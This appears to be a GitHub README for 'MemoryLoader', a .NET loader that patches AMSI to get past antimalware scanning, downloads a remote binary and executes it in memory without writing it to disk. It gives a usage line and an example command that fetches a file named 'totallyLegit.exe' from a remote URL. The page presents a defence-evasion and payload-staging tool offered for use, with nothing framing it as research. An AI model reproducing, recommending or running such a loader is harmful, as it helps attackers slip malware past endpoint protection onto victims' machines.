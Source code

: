# MemoryLoader

A .NET binary loader that bypasses AMSI checks. It will patch AMSI, download a remote binary, and execute it in memory without the binary ever hitting disk.

Usage:

`./MemoryLoader.exe [URL_TO_PAYLOAD]`

Example:  
`./MemoryLoader.exe http://example.com/totallyLegit.exe`
